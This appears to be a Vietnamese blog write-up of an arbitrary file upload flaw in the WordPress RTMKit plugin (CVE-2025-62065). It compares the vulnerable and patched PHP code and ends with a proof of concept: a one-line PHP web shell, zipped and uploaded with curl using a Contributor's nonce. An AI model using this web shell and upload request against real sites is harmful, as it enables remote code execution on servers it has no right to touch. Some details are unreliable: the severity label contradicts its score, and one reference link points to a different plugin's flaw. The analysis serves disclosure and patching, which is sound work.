


<!--more-->

## CVE & Basic Info

* **CVE ID**: [CVE-2025-62065](https://www.cve.org/CVERecord?id=CVE-2025-62065)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: <= 1.6.5
* **Patched Versions**: 1.6.6
* **CVSS severity**: Medium (9.9)
* **Required Privilege**: Contributor
* **Product**: [WordPress RTMKit Plugin](https://wordpress.org/plugins/rometheme-for-elementor/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **RTMKit**: **1.6.5** (vulnerable) và **1.6.6** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.
* [**Elementor**](https://wordpress.org/plugins/elementor/)

## Analysis

### Patch diff

```php {title="template.php - v1.6.5" hl_lines=[26] data-open=true}
function rtm_handle_upload_template()
{
    check_ajax_referer('rtm_template_nonce', 'nonce');

    if (empty($_FILES['file'])) {
        wp_send_json_error('Tidak ada file yang diupload.');
    }

    $file = $_FILES['file'];
    $ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    if ($ext !== 'zip') {
        wp_send_json_error('Hanya file .zip yang diperbolehkan.');
    }

    $upload_dir = wp_upload_dir();
    // path di server
    $tmpFilePath = $upload_dir['basedir'] . '/rtm_temp_' . wp_unique_filename($upload_dir['basedir'], $file['name']);

    // URL publik
    $tmpFileUrl  = $upload_dir['baseurl'] . '/' . basename($tmpFilePath);

    if (!move_uploaded_file($file['tmp_name'], $tmpFilePath)) {
        wp_send_json_error('Gagal menyimpan file sementara.');
    }

    $res = $this->template_extract($tmpFileUrl, $file['name'], true);

    // setelah selesai hapus file
    if (file_exists($tmpFilePath)) unlink($tmpFilePath);
    if ($res) {
        wp_send_json_success('Template berhasil diupload dan diekstrak.');
    } else {
        wp_send_json_error($res);
    }
}
```

```php {title="template.php - v1.6.5"}
function template_extract($url, $id, $return = false)
{
    $upload_dir = wp_upload_dir();
    $custom_dir = $upload_dir['basedir'] . '/rometheme_template';
    $tempFile = wp_tempnam($url);

    $hashId = wp_hash($id);
    $targetDir = $custom_dir . '/' . $hashId;

    $response = wp_remote_get($url, ['timeout' => 300]);

    if (is_wp_error($response)) {
        wp_send_json_error($response->get_error_message());
    }

    $fileContent = wp_remote_retrieve_body($response);

    file_put_contents($tempFile, $fileContent);

    $zip = new ZipArchive();
    if ($zip->open($tempFile) === TRUE) {
        wp_mkdir_p($targetDir);
        $zip->extractTo($targetDir);
        $zip->close();
        unlink($tempFile);

        $option = get_option('rtm_template_installed', []); // Default ke array jika tidak ada option
        if (!is_array($option)) {
            $option = []; // Pastikan $option adalah array
        }
        $option[$hashId] = [
            'template_id' => $id
        ];

        update_option('rtm_template_installed', $option); // Simpan kembali ke database

        if ($return) {
            return true;
        } else {
            wp_send_json_success(['message' => 'success extract', 'template' => $hashId]);
        }
    }
}
```
Trong phiên bản lỗi:

* **Không kiểm tra quyền người dùng hợp lệ:** chỉ gọi `check_ajax_referer()` nhưng không kiểm tra capability (ví dụ `current_user_can`) → user có nonce hợp lệ hoặc nonce bị lộ vẫn có thể upload.
* **Lưu file tạm vào thư mục public (`wp_upload_dir()`):** `$tmpFilePath` nằm trong `uploads/` nên có thể truy cập qua URL (`$tmpFileUrl`) trong thời gian file tồn tại.
* **Lấy lại file qua URL public trước khi giải nén:** `template_extract()` dùng `wp_remote_get($tmpFileUrl)` → phụ thuộc vào URL công khai.
* **Giải nén trực tiếp vào thư mục public:** `extractTo($targetDir)` trong `uploads/rometheme_template` → nếu file .php được chép lên, web server có thể thực thi.
* **Không whitelist/deny extension:** không loại bỏ hoặc từ chối các file thực thi (`.php`, `.phtml`, `.phar`, `.sh`, `.exe`, ...).
* **Không kiểm tra nội dung file (embedded PHP):** không có bước đọc/scan để phát hiện `<?php` trước khi lưu.
* **Rủi ro tạm thời public:** vì file tạm là public trong suốt quá trình, kẻ tấn công có thời gian truy cập/thiết lập payload trước khi file bị unlink.

=> Khả năng RCE rất cao.

```php {title="template.php - v1.6.6" hl_lines=[47] data-open=true}
function rtm_handle_upload_template()
{
    check_ajax_referer('rtm_template_nonce', 'nonce');

    if (empty($_FILES['file'])) {
        wp_send_json_error('No File Uploaded.');
    }

    if (! current_user_can('manage_options')) {
        wp_send_json_error(
            array('message' => 'Insufficient permissions'),
            403
        );
    }

    $file = $_FILES['file'];
    $ext  = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    if ($ext !== 'zip') {
        wp_send_json_error('Only .zip file allowed.');
    }
    $upload_dir = wp_upload_dir();
    // Direktori aman (bukan langsung ke uploads publik)
    $base_safe_dir = $upload_dir['basedir'] . '//rometheme_template/';
    $tmp_dir       = $base_safe_dir . 'tmp/';
    if (! file_exists($tmp_dir)) {
        wp_mkdir_p($tmp_dir);
        // cegah eksekusi file php di folder ini
        @file_put_contents(
            $base_safe_dir . '.htaccess',
            "Options -Indexes <FilesMatch ".(php|phtml|phar)$">  Deny from all</FilesMatch>"
        );
    }

    // Buat nama unik untuk zip
    $unique       = wp_generate_password(12, false);
    $tmp_zip_path = $tmp_dir . 'upload_' . $unique . '.zip';

    // Simpan file upload ke lokasi aman
    if (! move_uploaded_file($file['tmp_name'], $tmp_zip_path)) {
        wp_send_json_error(
            array('message' => 'Failed save temporary file.'),
            500
        );
    }

    // Proses ekstraksi dengan fungsi aman
    $res = $this->template_extract_secure($tmp_zip_path, $file['name'], true);

    // Hapus zip sementara
    if (file_exists($tmp_zip_path)) {
        @unlink($tmp_zip_path);
    }

    if ($res) {
        wp_send_json_success('Template has been successfully extracted.');
    } else {
        wp_send_json_error('Failed extracting template.');
    }
}
```

```php {title="template.php - v1.6.6"}
function template_extract_secure($zip_path, $id, $return = false)
{
    if (empty($zip_path) || ! file_exists($zip_path)) {
        return $return ? false : wp_send_json_error(['message' => 'Zip file not found.'], 400);
    }

    $zip_path = realpath($zip_path);
    if (strpos($zip_path, realpath(WP_CONTENT_DIR)) !== 0) {
        return $return ? false : wp_send_json_error(['message' => 'Invalid zip location.', 'path' => $zip_path], 403);
    }

    $upload_dir = wp_upload_dir();
    $hashId     = wp_hash($id);
    $base_dir   = $upload_dir['basedir'] . '/rometheme_template';
    $targetDir  = $base_dir . '/' . $hashId . '/';

    // buat base dir + proteksi root
    if (! file_exists($base_dir)) {
        wp_mkdir_p($base_dir);
        @file_put_contents($base_dir . '/.htaccess', "Options -Indexes<FilesMatch ".(php|phtml|phar)$\"> Deny from all</FilesMatch>");
    }
    if (! file_exists($targetDir)) {
        wp_mkdir_p($targetDir);
        @file_put_contents($targetDir . 'index.html', '<!-- protected -->');
    }

    $zip = new ZipArchive();
    if ($zip->open($zip_path) !== true) {
        return $return ? false : wp_send_json_error(['message' => 'Invalid or corrupt zip.'], 400);
    }

    // whitelist extension
    $allowed_ext = ['jpg', 'jpeg', 'png', 'gif', 'svg', 'webp', 'json', 'css', 'js', 'txt', 'html', 'htm', 'md'];

    // cek isi zip
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $entry = $zip->getNameIndex($i);
        if (substr($entry, -1) === '/') continue;

        $normalized = str_replace('\\', '/', $entry);

        // block traversal / absolute
        if (strpos($normalized, '../') !== false || substr($normalized, 0, 1) === '/' || preg_match('/^[A-Za-z]:\\\\/', $entry)) {
            $zip->close();
            error_log("[rtm] rejected: traversal ($entry)");
            return $return ? false : wp_send_json_error(['message' => 'Zip contains invalid paths.'], 400);
        }

        $entry_ext = strtolower(pathinfo($entry, PATHINFO_EXTENSION));
        if (empty($entry_ext) || in_array($entry_ext, ['php', 'phtml', 'phar', 'exe', 'sh', 'pl', 'cgi'], true)) {
            $zip->close();
            error_log("[rtm] rejected: bad extension ($entry)");
            return $return ? false : wp_send_json_error(['message' => 'Zip contains disallowed file types.'], 400);
        }

        if (! in_array($entry_ext, $allowed_ext, true)) {
            $zip->close();
            error_log("[rtm] rejected: unsupported ext $entry_ext ($entry)");
            return $return ? false : wp_send_json_error(['message' => "Unsupported file type: $entry_ext"], 400);
        }
    }

    // ekstrak dengan struktur folder asli
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $entry = $zip->getNameIndex($i);
        if (substr($entry, -1) === '/') continue;

        $entry_ext = strtolower(pathinfo($entry, PATHINFO_EXTENSION));
        if (! in_array($entry_ext, $allowed_ext, true)) continue;

        $normalized = str_replace('\\', '/', $entry);
        $safe_name  = sanitize_file_name(basename($normalized));
        $subdir     = dirname($normalized);

        $final_dir  = $targetDir . ($subdir !== '.' ? $subdir . '/' : '');
        wp_mkdir_p($final_dir);

        $target_path = $final_dir . $safe_name;

        $stream = $zip->getStream($entry);
        if ($stream === false) continue;

        $out = fopen($target_path, 'w');
        if ($out === false) {
            fclose($stream);
            continue;
        }

        while (! feof($stream)) fwrite($out, fread($stream, 8192));
        fclose($out);
        fclose($stream);

        // detect embedded php
        $head = @file_get_contents($target_path, false, null, 0, 512);
        if ($head !== false && stripos($head, '<?php') !== false) {
            @unlink($target_path);
            error_log("[rtm] removed suspicious file ($target_path)");
            continue;
        }

        // sanity check → skip mismatch untuk json agar manifest.json tidak kehapus
        $check = wp_check_filetype_and_ext($target_path, $safe_name);
        if ($entry_ext !== 'json' && $check && isset($check['ext']) && $check['ext'] !== $entry_ext) {
            @unlink($target_path);
            error_log("[rtm] removed mismatch file ($target_path)");
            continue;
        }
    }

    $zip->close();

    // update option
    $option = get_option('rtm_template_installed', []);
    if (! is_array($option)) $option = [];
    $option[$hashId] = ['template_id' => $hashId, 'created' => current_time('mysql')];
    update_option('rtm_template_installed', $option);

    return $return ? true : wp_send_json_success(['message' => 'success extract', 'template' => $hashId]);
}
```

Bản vá đã:
* **Kiểm tra quyền người dùng:** thêm `current_user_can('manage_options')` → chỉ admin mới được upload.
* **Đưa file tạm vào thư mục an toàn, không public:** dùng `wp_upload_dir()` nhưng tạo `.../rometheme_template/tmp/` làm nơi lưu tạm, không trả URL public cho file tạm.
* **Tạo `.htaccess` để chặn thực thi:** khi tạo base dir, ghi `.htaccess` có `Deny from all` / `FilesMatch "\.(php|phtml|phar)$"` để ngăn Apache/PHP thực thi các file nguy hiểm.
* **Tên file tạm ngẫu nhiên:** dùng `wp_generate_password(12, false)` đặt tên file như `upload_<random>.zip` → giảm khả năng đoán/truy cập.
* **Xóa file tạm sau xử lý:** vẫn unlink zip sau khi xử lý; nay file nằm trong khu vực không public trước khi xóa.
* **Thay hàm giải nén bằng `template_extract_secure()`:** hàm mới chứa nhiều kiểm tra an toàn trước và trong khi giải nén:
  * **Kiểm tra vị trí file ZIP:** `realpath()` và so sánh với `WP_CONTENT_DIR` để đảm bảo zip nằm trong thư mục hợp lệ.
  * **Tạo thư mục đích & bảo vệ root:** tạo base dir và `index.html` ở target để tránh directory listing; tạo `.htaccess` ở base dir.
  * **Mở ZIP an toàn:** kiểm tra `open()` thành công, nếu lỗi trả về tương ứng.
  * **Whitelist phần mở rộng:** chỉ cho phép các ext an toàn (`jpg,jpeg,png,gif,svg,webp,json,css,js,txt,html,htm,md`).
  * **Chặn path traversal & path tuyệt đối:** từ chối entry chứa `../`, bắt đầu bằng `/` hoặc drive letter (Windows) → ngăn Zip Slip.
  * **Từ chối extension nguy hiểm:** nếu entry có ext rỗng hoặc ext trong danh sách đen (`php,phtml,phar,exe,sh,pl,cgi`...) thì đóng zip và trả lỗi.
  * **Tránh mismatch mime/ext:** dùng `wp_check_filetype_and_ext()`; nếu mismatch (trừ json) thì xóa file.
  * **Scan nội dung đầu file:** đọc 512 bytes đầu; nếu thấy `<?php` thì xóa file đó.
  * **Giải nén từng file bằng stream:** ghi từng entry vào đường dẫn đã normalize và sanitize (`sanitize_file_name(basename(...))`) thay vì extractTo trực tiếp.
* **Cập nhật option an toàn hơn:** lưu `$hashId` cùng timestamp `created` vào `rtm_template_installed`.
* **Trả về/điều khiển lỗi rõ ràng:** nhiều `wp_send_json_error()` với mã trạng thái/mesage cụ thể khi gặp vấn đề (file not found, invalid zip, disallowed types...).

=> Giảm mạnh mọi rủi ro tấn công thông qua upload ZIP, không thể RCE

### Vulnerable Code 

Trong phiên bản lỗi, Hàm nhận một file upload(kỳ vọng `.zip`), lưu tạm vào thư mục `uploads/`, sau đó gọi `template_extract()` để tải lại và giải nén nó. Cuối cùng xóa file tạm và trả JSON `success/fail`. Cụ thể:

1. `check_ajax_referer('rtm_template_nonce', 'nonce')`

Giúp bảo vệ trước `CSRF` - đảm bảo request AJAX hợp lệ và có `nonce`. Khi search với từ khóa `rtm_template_nonce` trong thư mục plugin:



`wp_localize_script()` sẽ in một đoạn `<script>` inline vào trang và trong đó khai báo một biến JS (object) chứa dữ liệu được truyền vào. Trong trường hợp này, object là `rkit_libs` lưu trữ các giá trị `logo_url`, `ajax_url`, `template_nonce`.

> [!TIP]
> Vì lỗ hổng được công bố với đặc quyền **Contributor**, thường liên quan đến việc tạo **post** nên ta thử tạo post và gọi đối tượng `rkit_libs` từ console của trình duyệt để lấy giá trị `nonce`.
> > [!INFO] 
> > Ta edit post bằng **Elementor** , vì các widget của plugin được sử dụng bằng **Elementor**, editor mặc định không có.
> > 

2. Kiểm tra `$_FILES['file']` và **extension**:

```php
if (empty($_FILES['file'])) {
    wp_send_json_error('Tidak ada file yang diupload.');
}

$file = $_FILES['file'];
$ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
if ($ext !== 'zip') {
    wp_send_json_error('Hanya file .zip yang diperbolehkan.');
}
```

Đảm bảo client gửi file và chỉ cho phép upload `.zip`

3. Xác định đường dẫn tạm và **URL** công khai

```php
$upload_dir = wp_upload_dir();
$tmpFilePath = $upload_dir['basedir'] . '/rtm_temp_' . wp_unique_filename($upload_dir['basedir'], $file['name']);
$tmpFileUrl  = $upload_dir['baseurl'] . '/' . basename($tmpFilePath);
```

Tạo tên file tạm hợp lệ trong thư mục **uploads** và **URL** truy cập đến file đó, ví dụ:

```php
$tmpFilePath = "/var/www/html/wp-content/uploads/rtm_temp_filename.zip"
$tmpFileUrl = "http://localhost/wp-content/uploads/rtm_temp_filename.zip"
```

4. `move_uploaded_file($file['tmp_name'], $tmpFilePath)`

Di chuyển file upload từ tmp PHP vào nơi tạm định nghĩa.

5. Gọi `template_extract($tmpFileUrl, $file['name'], true)`

```php {title="template.php - v1.6.5"}
function template_extract($url, $id, $return = false)
{
    // Lấy thư mục upload của WordPress và tạo thư mục lưu template
    $upload_dir = wp_upload_dir();
    $custom_dir = $upload_dir['basedir'] . '/rometheme_template';
    
    // Tạo file tạm để tải file từ URL về
    $tempFile = wp_tempnam($url);

    // Tạo hash ID cho template
    $hashId = wp_hash($id);
    $targetDir = $custom_dir . '/' . $hashId;

    // Tải file từ URL
    $response = wp_remote_get($url, ['timeout' => 300]);

    // Kiểm tra lỗi trong quá trình tải file
    if (is_wp_error($response)) {
        wp_send_json_error($response->get_error_message());
    }

    // Lưu nội dung của file ZIP vào file tạm
    $fileContent = wp_remote_retrieve_body($response);
    file_put_contents($tempFile, $fileContent);

    // Mở file ZIP và giải nén vào thư mục mục tiêu
    $zip = new ZipArchive();
    if ($zip->open($tempFile) === TRUE) {
        wp_mkdir_p($targetDir);  // Tạo thư mục nếu chưa có
        $zip->extractTo($targetDir);  // Giải nén vào thư mục mục tiêu
        $zip->close();
        unlink($tempFile);  // Xóa file tạm

        // Cập nhật tùy chọn 'rtm_template_installed' trong database
        $option = get_option('rtm_template_installed', []);
        if (!is_array($option)) {
            $option = [];
        }
        $option[$hashId] = ['template_id' => $id];
        update_option('rtm_template_installed', $option);

        // Trả về kết quả
        if ($return) {
            return true;
        } else {
            wp_send_json_success(['message' => 'success extract', 'template' => $hashId]);
        }
    }
}
```

> [!INFO]
> Ở đây file không được giải nén thẳng nên không thể sử dụng kỹ thuật **Zip Slip** để di chuyển file vào thư mục cao hơn.
>
> Cuối cùng file được lưu trong trong `{wp_upload_dir}/rometheme_template/{hashId}/`

6. Trả về JSON 

---

`rtm_handle_upload_template()` được đăng ký làm callback cho action hook:

```php
add_action('wp_ajax_rtm_handle_upload_template', [$this, 'rtm_handle_upload_template']);
```

Có nghĩa là: Khi người dùng gửi yêu cầu AJAX đến `wp-admin/admin-ajax.php` với `action=rtm_handle_upload_template`, hàm `rtm_handle_upload_template()` sẽ được gọi để xử lý yêu cầu.

### Flow


graph LR;
A[POST REQUEST /wp-admin/admin-ajax.php?action=rtm_handle_upload_template] --> B["rtm_handle_upload_template()"]
B --> C{is .zip extension}
C -->|True| D{"check_ajax_referer()"}
C -->|False| E["wp_send_json_error()"]
D -->|True| F["template_extract()"]
D -->|False| G[Return 401]
F -->|Extract To| H["{wp_upload_dir}/rometheme_template/{hashId}/"]


## Exploit

### Proof of Concept (PoC)

1. Đăng nhập bài tài khoản **Contributor**
2. Tạo post và edit bằng **Elementor**
3. Gọi `rkit_libs.template_nonce` để lấy nonce
4. Tạo file để RCE 
```php
<?php system($_GET['cmd']) ?>
```
5. Nén file vừa tạo
```zsh
zip rce.zip rce.php
```
6. Gửi request upload file

```zsh
curl -X POST "http://localhost/wp-admin/admin-ajax.php" \
  -b "your_cookie" \
  -F "action=rtm_handle_upload_template" \
  -F "nonce=your_nonce" \
  -F "file=@rce.zip;filename=rce.zip;type=application/zip"
```

7. Truy cập file vừa upload


> [!question]
> Điều tôi muốn nhấn mạnh là, mặc dù tệp này có thể truy cập thẳng, nhưng việc truy cập trực tiếp vẫn bị hạn chế bởi `hashid`, do WordPress mặc định không cho phép liệt kê nội dung thư mục.

## Conclusion
Lỗ hổng là chuỗi: **Arbitrary File Upload + file tạm public + giải nén thiếu kiểm soát** → rủi ro RCE. Bản vá (1.6.6) khắc phục bằng kiểm tra quyền, lưu tạm không public, whitelist ext, chặn traversal và scan nội dung.

## Key takeaways

* Cập nhật lên **1.6.6** ngay.
* Nếu chưa cập nhật: vô hiệu hoá upload template hoặc giới hạn chỉ admin.
* Luôn lưu file upload ở nơi không public, whitelist ext, chặn path traversal và scan nội dung trước khi giải nén.

## References

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[WordPress RTMKit Plugin <= 1.6.5  is vulnerable to Arbitrary File Upload](https://patchstack.com/database/wordpress/plugin/ninja-tables/vulnerability/wordpress-ninja-tables-easy-data-table-builder-plugin-5-0-18-unauthenticated-server-side-request-forgery-vulnerability) 